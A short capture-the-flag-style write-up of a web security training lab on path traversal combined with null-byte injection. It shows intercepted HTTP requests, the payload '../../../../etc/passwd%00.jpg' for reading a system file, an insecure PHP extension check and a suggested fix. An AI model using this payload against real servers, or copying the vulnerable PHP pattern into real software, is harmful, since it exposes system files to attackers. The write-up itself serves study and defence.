




---

- **Target:** Path Traversal Lab - validation of file extension with null byte bypass
- **Author:** sonyahack1
- **Date:** 05.05.2025

---

> vulnerability contains in the display of product images. so i open any card and open its image in new tab:





## Intercepting request

> Intercept image request in BurpSuite:

```html

GET /image?filename=21.jpg HTTP/2
Host: 0a94003d049d809f812520c200e300b1.web-security-academy.net
Cookie: session=dmFCbMWh7AJYj7F45*******************
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a94003d049d809f812520c200e300b1.web-security-academy.net/product?productId=12
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> from the lab description I know that the **application validates that the supplied filename ends with the expected file extension.**

> This means that when requesting an image **/image?** the server will expect a value for the **filename** parameter with a specific extension:
> .jpg, .png, .gif, .svg, .ico, etc. Which matches any image.

> So, i'm trying to read the **/etc/passwd/** file directly:

```html

GET /image?filename=../../../../etc/passwd HTTP/2

```

> Result:

```html

HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

"No such file"

```

> no such file.

> i use **Null byte injection** technique:


```html

GET /image?filename=../../../../etc/passwd%00.jpg HTTP/2

```

> Result:



> it's work.

---

> Actually I'm dealing with a combined vulnerability - **Path Traversal** + **Null byte injection**.
> **%00** is a **null byte**, which is used at the level of C-like programming languages, old versions of PHP, Perl, etc.
> to break a string. If incoming requests are not handled well by a server that may run on old low-level libraries the
> processing of such a string may be interrupted and terminated at **%00** . The server will process a string with **.jpg** but will terminate the processing
> at the null byte and read the file **/etc/passwd**.

> sometimes this technique is also called **Null Byte Poisoning**.

> An example of insecure path handling in PHP:

```php

$filename = $_GET['filename'];
if (endsWith($filename, '.jpg')) {
    readfile("/images/" . $filename);
}

```

> This vulnerability can be fixed as follows: **Do not check the path for a specific extension; also need to normalize**
> **the path and check that it remains inside a valid directory which also makes it possible to isolate user files**
> **in this separate directory and prohibit exit from it.**

---



